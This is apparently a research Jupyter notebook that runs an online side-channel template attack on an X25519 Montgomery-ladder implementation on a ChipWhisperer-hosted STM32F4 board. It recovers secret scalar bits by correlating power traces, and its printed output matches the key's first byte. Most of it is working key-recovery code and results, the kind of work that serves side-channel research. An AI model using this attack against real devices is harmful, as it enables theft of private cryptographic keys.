# Framework for real-world on-the-fly OTA
In order to run this notebook, you'll need to have a device connected. This notebook runs the attack online.

In [ ]:
import chipwhisperer as cw
import numpy as np
import time
import matplotlib.pyplot as plt
from tqdm import trange, tqdm
import seaborn as sns
from scipy.signal import find_peaks

## Open Source Capture Hardware setup

In [2]:
PLATFORM = 'CW308_STM32F4'
CRYPTO_TARGET = 'NONE'
SS_VER = 'SS_VER_2_1'
SCOPETYPE = 'OPENADC'

In [4]:
HEXFILE_NOP0 = "../firmware/POI/simpleserial_sca25519-" + PLATFORM + ".hex"
HEXFILE_NOP1 = "../firmware/POI/simpleserial_sca25519-" + PLATFORM + "_1NOP.hex"
HEXFILE_NOP2 = "../firmware/POI/simpleserial_sca25519-" + PLATFORM + "_2NOPS.hex"
HEXFILE_NOP_LADDER = "../firmware/POI/simpleserial_sca25519-" + PLATFORM + "-NOP-ladderstep.hex"


### Set up Oscilloscope

In [3]:

scope = cw.scope()

target_type = cw.targets.SimpleSerial2
try:
    target = cw.target(scope, target_type)
except:
    print("INFO: Caught exception on reconnecting to target - attempting to reconnect to scope first.")
    print("INFO: This is a work-around when USB has died without Python knowing. Ignore errors above this line.")
    scope = cw.scope()
    target = cw.target(scope, target_type)

print("INFO: Found ChipWhisperer😍")

prog = cw.programmers.STM32FProgrammer

time.sleep(0.05)
scope.default_setup()
def reset_target(scope):
    scope.io.nrst = 'low'
    time.sleep(0.05)
    scope.io.nrst = 'high_z'
    time.sleep(0.05)


INFO: Found ChipWhisperer😍
scope.gain.mode                          changed from low                       to high                     
scope.gain.gain                          changed from 0                         to 22                       
scope.gain.db                            changed from 15.0                      to 25.091743119266056       
scope.adc.samples                        changed from 327828                    to 5000                     
scope.adc.trig_count                     changed from 2799                      to 13869157                 
scope.clock.clkgen_freq                  changed from 0                         to 7363636.363636363        
scope.clock.adc_freq                     changed from 0                         to 29454545.454545453       
scope.io.tio1                            changed from serial_tx                 to serial_rx                
scope.io.tio2                            changed from serial_rx                 to serial_tx         

In [5]:
## Set up scope
scope.default_setup()
nr_samples = 300000

DATA_LEN=32
RESP_LEN=32

scope.adc.samples = nr_samples
scope.adc.decimate = 1
scope.clock.adc_mul = 10
scope.gain.db = 22
print(scope)

scope.adc.trig_count                     changed from 489738857                 to 530186742                


(ChipWhisperer Scope WARNING|File ChipWhispererHuskyClock.py:703) Target clock may drop; you may need to reset your target.


cwhuskyplus Device
sn             = 502032204a4d59303130342038303033
fpga_buildtime = 12/16/2024, 13:17
fw_version = 
    major = 1
    minor = 0
    debug = 0
gain = 
    mode = high
    gain = 15
    db   = 21.88073394495413
adc = 
    state                    = True
    basic_mode               = rising_edge
    timeout                  = 2
    offset                   = 0
    presamples               = 0
    samples                  = 300000
    decimate                 = 1
    trig_count               = 563782240
    stream_mode              = False
    test_mode                = False
    bits_per_sample          = 12
    segments                 = 1
    segment_cycles           = 0
    segment_cycle_counter_en = False
    clip_errors_disabled     = False
    lo_gain_errors_disabled  = False
    errors                   = trigger too soon error, 
clock = 
    clkgen_src             = system
    clkgen_freq            = 7371428.571428572
    adc_mul                = 10
    adc_fre

In [6]:
# Test signal
cw.program_target(scope, prog, HEXFILE_NOP0)

CMD_TEST = 'e'

DATA_LEN=32 
RESP_LEN=32

target.flush()
msg = bytearray([x for x in range(DATA_LEN)])
scope.arm()
time.sleep(0.05)
target.simpleserial_write(CMD_TEST, msg)
scope.capture()
response = target.simpleserial_read('r', RESP_LEN)
print("res: {}".format(response))

Detected known STMF32: STM32F40xxx/41xxx
Extended erase (0x44), this can take ten seconds or more
Attempting to program 38027 bytes at 0x8000000
STM32F Programming flash...
STM32F Reading flash...
Verified flash OK, 38027 bytes
res: CWbytearray(b'00 01 02 03 04 05 06 07 08 09 0a 0b 0c 0d 0e 0f 10 11 12 13 14 15 16 17 18 19 1a 1b 1c 1d 1e 1f')


### One-time single target trace

In [ ]:
def collect_target_trace(scope, target, pk_B):
    cmd_targettrace = 's'

    target.flush()
    msg = bytearray(pk_B)
    scope.arm()
    time.sleep(0.05)
    target.simpleserial_write(cmd_targettrace, msg)
    scope.capture()
    response = target.simpleserial_read('r', RESP_LEN) ## This part is only for the sanity check
    print("res: {}".format(response))

    target_trace = scope.get_last_trace()
    print(scope.adc.trig_count)

    plt.figure(figsize=(15,5))
    plt.plot(target_trace)
    plt.title("Target trace belonging to calculating shared secret ss = B^a with highlighting the first ladderstep and second cswap")
    plt.vlines(10000, -0.5, 0.2, colors="red")
    plt.vlines(37900, -0.5, 0.2, colors="red")
    plt.show()

    return target_trace


# Open Source Software Framework for OTA

In [7]:
# Little endian
pk_B = [0xDE, 0x9E, 0xDB, 0x7D, 0x7B, 0x7D, 0xC1, 0xB4,
                            0xD3, 0x5B, 0x61, 0xC2, 0xEC, 0xE4, 0x35, 0x37,
                             0x3F, 0x83, 0x43, 0xC8, 0x5B, 0x78, 0x67, 0x4D,
                             0xAD, 0xFC, 0x7E, 0x14, 0x6F, 0x88, 0x2B, 0x4F]

# Little endian
generator_point = [0x09, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
                            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
                            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
                            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00]

# Little endian
secret_key_a = [0x6A, 0x2C, 0xB9, 0x1D, 0xA5, 0xFB, 0x77, 0xB1,
                      0x2A, 0x99, 0xC0, 0xEB, 0x87, 0x2F, 0x4C, 0xDF,
                      0x45, 0x66, 0xB2, 0x51, 0x72, 0xC1, 0x16, 0x3C,
                      0x7D, 0xA5, 0x18, 0x73, 0x0A, 0x6D, 0x07, 0x70]



## PKC Oracle/State tracker

In [17]:
p = 2**255 - 19
A24 = 121666

def fe_add(a,b): return (a + b) % p
def fe_sub(a,b): return (a - b) % p
def fe_mul(a,b): return (a * b) % p
def fe_square(a): return (a * a) % p

class LadderState:
    def __init__(self, xp, zp, xq, zq, x0):
        self.xp = xp % p
        self.zp = zp % p
        self.xq = xq % p
        self.zq = zq % p
        self.x0 = x0 % p
    def copy(self):
        return LadderState(self.xp, self.zp, self.xq, self.zq, self.x0)

def cswap(state: LadderState, condition: int):
    if condition:
        state.xp, state.xq = state.xq, state.xp
        state.zp, state.zq = state.zq, state.zp

def ladderstep(state: LadderState):
    A = fe_add(state.xp, state.zp)
    B = fe_sub(state.xp, state.zp)
    C = fe_add(state.xq, state.zq)
    D = fe_sub(state.xq, state.zq)

    DA = fe_mul(D, A)
    CB = fe_mul(C, B)

    T0 = fe_add(DA, CB)
    T2 = fe_sub(DA, CB)

    X5 = fe_square(T0)
    Z5 = fe_mul(fe_square(T2), state.x0)

    AA = fe_square(A)
    BB = fe_square(B)
    E  = fe_sub(AA, BB)

    X4 = fe_mul(AA, BB)
    Z4 = fe_mul(E, fe_add(BB, fe_mul(E, A24)))

    state.xp, state.zp = X4, Z4
    state.xq, state.zq = X5, Z5

## Template generator

In [ ]:

def find_points_template(previous_bit, state, bit_i):

    state = state.copy()

    swap_i = bit_i ^ previous_bit
    cswap(state, swap_i)

    A_i = fe_add(state.xp, state.zp) # This will lead to collision in A, A**2 
    x_affine = fe_sub(A_i, 1)

    return x_affine

## Distinguisher Metric


In [ ]:
def plot_similarity(similarity_arrays, scalar, left, right):
    plt.figure(figsize=(10,5))
    plt.plot(similarity_arrays[0], label = "bit 0")
    plt.plot(similarity_arrays[1], label = "bit 1")
    plt.axvspan(left, right, alpha=0.2)
    plt.title(f"Correlation comparison for {scalar << 1}P and {(scalar << 1) | 1}P")
    plt.xlabel("Timesamples")
    plt.ylabel("Delta power consumption")
    plt.legend()
    plt.show()
    
def compute_correlation(target_trace, template_trace):
    corr = np.corrcoef(target_trace, template_trace)[0,1]
    return np.abs(corr)

# In this function, you can plug in any comparison function. Refer to the folder 2-attacks on how various distinguishers can be used for bit prediction. 
def pattern_match(target_trace, template_trace, comparison_function, poi_start, poi_end, step=1): 
    comparison_array = []
    window = poi_end - poi_start
    template_trace_sliced = template_trace[poi_start:poi_end]
    for timesample in trange(0, len(target_trace) - window, step):
        comparison = comparison_function(target_trace[timesample:timesample + window], template_trace_sliced)
        comparison_array.append(comparison)
    return np.array(comparison_array)

## Helper functions for iterative bit recovery
This part of the code connects to the blue arrow loop in the paper.

In [1]:

def get_window(corr_anytemplate, iteration, step_size=1, height=0.7, distance=20000, prominence=0.15):
    peaks, _ = find_peaks(corr_anytemplate, height=height, distance=distance, prominence=prominence)
    print(peaks)
    left = peaks[iteration+1] - (distance // 2)
    right = peaks[iteration+1] + (distance // 2)
    
    return left//step_size, right//step_size

def obtain_correct_keybit(iteration, target_trace, templates, scalar, poi_start, poi_end):

    corr_vectors = []

    # Compute correlations for window
    for template in templates:
        corr_vec = np.abs(pattern_match(target_trace, template, compute_correlation, poi_start, poi_end, step=1))
        corr_vectors.append(corr_vec)

    window_start, window_end = get_window(corr_vectors[0], iteration, step_size=1, height=0.7, distance=20000, prominence=0.15)

    peak_scores = []

    for idx, corr_vec in enumerate(corr_vectors):
        if window_end < len(corr_vec):
            selected_peak = np.max(corr_vec[window_start:window_end])
        else:
            selected_peak = 0

        peak_scores.append(selected_peak)

        print(f"Template {idx}")
        print("  Window:", window_start, "-", window_end)
        print("  Max in window:", selected_peak)

    score_bit0 = (peak_scores[0])
    score_bit1 = (peak_scores[1])


    print("Score bit 0:", score_bit0)
    print("Score bit 1:", score_bit1)

    scalar_bit = 1 if score_bit1 > score_bit0 else 0
 
    # Plot correlation for each template
    plot_similarity(corr_vectors, scalar, window_start, window_end)

    scalar = (scalar << 1) | scalar_bit

    return scalar_bit, scalar


def recover_bits(pk_B_int, target_trace, traces_to_store, poi_start, poi_end, num_bits=6):

    target_trace = target_trace - np.mean(target_trace) 
    traces_to_store[0] = target_trace

    cmd_request_scalarmult = 's'
    RESP_LEN = 32

    prev_bit = 0
    current_bit = 1
    scalar = 0
    predicted_key = [prev_bit, current_bit]

    # Initialise state tracker with the known parameters.
    state = LadderState(xp=1, zp=0, xq=pk_B_int, zq=1, x0=pk_B_int)

    # First ladder step
    cswap(state, current_bit ^ prev_bit)
    ladderstep(state)
    scalar = (scalar << 1) | current_bit
    prev_bit = current_bit

    # Start recovering the unknown bits
    for iter in range(num_bits):

        print("Recovering bit at position:", iter)

        templates = []
        for i, (b_i) in enumerate([0,1]):

            # Fint the corresponding templates for the two bit hypotheses and collect the corresponding traces. 
            p = find_points_template(prev_bit, state, b_i)

            print("Hypothesis:", b_i)

            msg = p.to_bytes(32, "little")

            target.flush()
            scope.arm()
            time.sleep(0.05)
            target.simpleserial_write(cmd_request_scalarmult, msg)
            scope.capture()
            target.simpleserial_read('r', RESP_LEN)

            template_trace = scope.get_last_trace()
            template_trace -= np.mean(template_trace)

            templates.append(template_trace)
            indx_to_store = iter*2 if b_i == 0 else iter*2 + 1
            traces_to_store[indx_to_store+1] = template_trace

        # Based on the two template traces, determine the correct bit hypothesis and update the scalar value
        current_bit, scalar = obtain_correct_keybit(iter, target_trace, templates, scalar, poi_start, poi_end)
        
        print("Recovered bit value:", current_bit)
        print("Current scalar: ", scalar)

        # Update ladder with recovered bit
        swap = current_bit ^ prev_bit
        cswap(state, swap)
        ladderstep(state)

        predicted_key.append(current_bit)
        prev_bit = current_bit

    return predicted_key





# Main cell block

In [ ]:
pk_B_int = int.from_bytes(pk_B, "little")

nr_bits_to_recover = 6

traces_to_store = np.zeros(((nr_bits_to_recover*2)+1, nr_samples)) # Store 2 templates per iteration, +1 for the target trace

poi_start = 10000 #POI is starting from first ladderstep + cswap.
poi_end =  37900 

### Collect the one-time single target trace
This part connects to the orange arrow in the paper.

In [ ]:
target_trace = collect_target_trace(scope, target, pk_B)
traces_to_store[0] = target_trace  - np.mean(target_trace) # Mean center the target trace to reduce noise

### Collect the template traces iteratively 
This part connects to the blue loop in the paper.

res: CWbytearray(b'4a 5d 9d 5b a4 ce 2d e1 72 8e 3b f4 80 35 0f 25 e0 7e 21 c9 47 d1 9e 33 76 f0 9b 3c 1e 16 17 42')
7574330




Recovering bit at position: 0
Hypothesis: 0
Hypothesis: 1


100%|██████████| 272100/272100 [00:25<00:00, 10527.52it/s]


[ 10000  37870  65740  93610 121480 149350 177220 205090 232960 260830]
Template 0
  Window: 27870 - 47870
  Max in window: 0.9566819406268997
Template 1
  Window: 27870 - 47870
  Max in window: 0.9575508207323187
Score bit 0: 0.9566819406268997
Score bit 1: 0.9575508207323187




Recovered bit value: 1
Current scalar:  3
Recovering bit at position: 1
Hypothesis: 0
Hypothesis: 1


100%|██████████| 272100/272100 [00:25<00:00, 10595.62it/s]


[ 10000  37870  65740  93610 121480 149350 177220 205090 232960 260830]
Template 0
  Window: 55740 - 75740
  Max in window: 0.9580561492769154
Template 1
  Window: 55740 - 75740
  Max in window: 0.9546445016572039
Score bit 0: 0.9580561492769154
Score bit 1: 0.9546445016572039




Recovered bit value: 0
Current scalar:  6
Recovering bit at position: 2
Hypothesis: 0
Hypothesis: 1


100%|██████████| 272100/272100 [00:25<00:00, 10669.00it/s]


[ 10000  37870  65740  93610 121480 149350 177220 205090 232960 260830]
Template 0
  Window: 83610 - 103610
  Max in window: 0.9558990515930801
Template 1
  Window: 83610 - 103610
  Max in window: 0.9560978136058154
Score bit 0: 0.9558990515930801
Score bit 1: 0.9560978136058154




Recovered bit value: 1
Current scalar:  13
Recovering bit at position: 3
Hypothesis: 0
Hypothesis: 1


100%|██████████| 272100/272100 [00:25<00:00, 10646.93it/s]


[ 10000  37870  65740  93610 121480 149350 177220 205090 232960 260830]
Template 0
  Window: 111480 - 131480
  Max in window: 0.9590837293235873
Template 1
  Window: 111480 - 131480
  Max in window: 0.9563116833300508
Score bit 0: 0.9590837293235873
Score bit 1: 0.9563116833300508




Recovered bit value: 0
Current scalar:  26
Recovering bit at position: 4
Hypothesis: 0
Hypothesis: 1


100%|██████████| 272100/272100 [00:25<00:00, 10721.17it/s]


[ 10000  37870  65740  93610 121480 149350 177220 205090 232960 260830]
Template 0
  Window: 139350 - 159350
  Max in window: 0.9558331066535068
Template 1
  Window: 139350 - 159350
  Max in window: 0.9577155816972576
Score bit 0: 0.9558331066535068
Score bit 1: 0.9577155816972576




Recovered bit value: 1
Current scalar:  53
Recovering bit at position: 5
Hypothesis: 0
Hypothesis: 1


100%|██████████| 272100/272100 [00:25<00:00, 10656.83it/s]


[ 10000  37870  65740  93610 121480 149350 177220 205090 232960 260830]
Template 0
  Window: 167220 - 187220
  Max in window: 0.9556370886395257
Template 1
  Window: 167220 - 187220
  Max in window: 0.9534779615989197
Score bit 0: 0.9556370886395257
Score bit 1: 0.9534779615989197




Recovered bit value: 0
Current scalar:  106
[0, 1, 1, 0, 1, 0, 1, 0]
Correct key first byte:  01101010


In [21]:
recovered_key = recover_bits(pk_B_int, target_trace, traces_to_store, poi_start, poi_end, nr_bits_to_recover)
print(recovered_key)
print("Correct key first byte: ", format(secret_key_a[0], '08b'))

#np.savez("ecc-scalarmult-montgomory.npz", traces = traces_to_store, key = secret_key_a)
